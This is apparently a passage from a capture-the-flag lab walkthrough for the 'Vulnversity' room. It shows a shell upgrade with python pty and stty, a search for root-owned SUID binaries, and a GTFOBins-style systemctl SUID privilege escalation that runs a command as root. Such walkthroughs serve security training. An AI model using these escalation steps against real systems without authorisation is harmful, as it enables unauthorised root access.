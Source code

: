 ```
python -c "import pty; pty.spawn('/bin/bash')"
```

Now hit ctrl+z to background it.

```
Ctrl+Z
```

Now you will get your shell and disable text display and foreground the process.

```
stty raw -echo && fg
```

Set the terminal variable.

```
export TERM=xterm
```

<img src="{{'/assets/img/images/01.Vulnversity/13.png' | prepend: site.baseurl }}" height="200">

## Task 5

Now run to find SUID files with root permission.

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

<img src="{{'/assets/img/images/01.Vulnversity/14.png' | prepend: site.baseurl }}" height="200">

We found some interesting files. Of them, /bin/systemctl is running as root.

Head to https://gtfobins.github.io/gtfobins/systemctl/#suid.

We will try to follow that to check whether it will work or not.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
```

```
./systemctl link $TF
```

```
./systemctl enable --now $TF
```

Now we see output of the command id in the file we just created.

<img src="{{'/assets/img/images/01.Vulnversity/15.png' | prepend: site.baseurl }}" height="300">
